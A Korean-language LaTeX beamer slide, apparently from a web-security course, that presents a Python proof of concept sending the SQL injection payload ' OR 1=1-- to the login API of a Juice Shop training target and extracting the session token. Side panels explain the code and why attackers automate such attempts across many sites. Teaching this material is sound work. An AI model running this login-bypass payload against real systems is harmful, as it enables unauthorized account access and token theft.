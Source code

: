 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[fragile,shrink=10]{SQLi PoC 코드 — 자동화된 공격}

브라우저에서 수동으로 하는 것 외에, \textbf{프로그램}으로도 공격할 수 있습니다:

\vspace{0.2em}
\begin{lstlisting}[language=Python]
import requests, json

TARGET = "http://juice-shop:3000"

# SQL Injection payload
payload = {"email": "' OR 1=1--", "password": "anything"}

resp = requests.post(f"{TARGET}/rest/user/login", json=payload)

if resp.status_code == 200:
    data = resp.json()
    token = data["authentication"]["token"]
    email = data["authentication"]["umail"]
    print(f"[+] SUCCESS! Login bypassed!")
    print(f"[+] User: {email}")
    print(f"[+] Token: {token[:50]}...")
\end{lstlisting}

\vspace{0.2em}
\begin{columns}[T]
\begin{column}{0.48\textwidth}
\begin{block}{코드가 하는 일}
\begin{itemize}
    \item 로그인 API에 POST 요청
    \item email에 \texttt{' OR 1=1--} 삽입
    \item 응답에서 토큰 추출
    \item → 브라우저 없이도 공격 가능!
\end{itemize}
\end{block}
\end{column}
\begin{column}{0.48\textwidth}
\begin{block}{왜 자동화하는가}
\begin{itemize}
    \item 다양한 payload를 빠르게 시도
    \item 수백 개 사이트를 동시에 테스트
    \item 결과를 프로그램적으로 처리
    \item 실제 해커/보안 전문가 모두 사용
\end{itemize}
\end{block}
\end{column}
\end{columns}
\end{frame}
\end{document}
